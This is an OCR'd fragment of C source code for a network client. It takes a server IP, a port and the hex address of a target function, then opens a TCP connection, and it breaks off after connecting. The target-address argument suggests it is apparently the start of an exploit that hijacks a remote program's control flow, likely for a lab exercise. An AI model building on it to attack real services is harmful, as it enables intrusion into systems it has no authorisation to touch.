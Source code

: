 

int main(int argc, char* argv[]) {

   if (argc < 4) {

       fprintf(stderr, "Usage: %s <server_ip> <port> <hex_addr_of_target_func>\n", argv[0]);

       return 1;

   }



   const char* serverIp = argv[1];

   int port = atoi(argv[2]);

   unsigned long funcAddr = strtoul(argv[3], NULL, 16);



   // Create socket

   int sock = socket(AF_INET, SOCK_STREAM, 0);

   if (sock < 0) {

       perror("socket");

       return 1;

   }



   // Server address

   struct sockaddr_in serverAddr;

   memset(&serverAddr, 0, sizeof(serverAddr));

   serverAddr.sin_family = AF_INET;

   serverAddr.sin_port   = htons(port);

   if (inet_pton(AF_INET, serverIp, &serverAddr.sin_addr) <= 0) {

       perror("inet_pton");

       close(sock);

       return 1;

   }



   // Connect

   if (connect(sock, (struct sockaddr*)&serverAddr, sizeof(serverAddr)) < 0) {

       perror("connect");

       close(sock);

       return 1;

   }
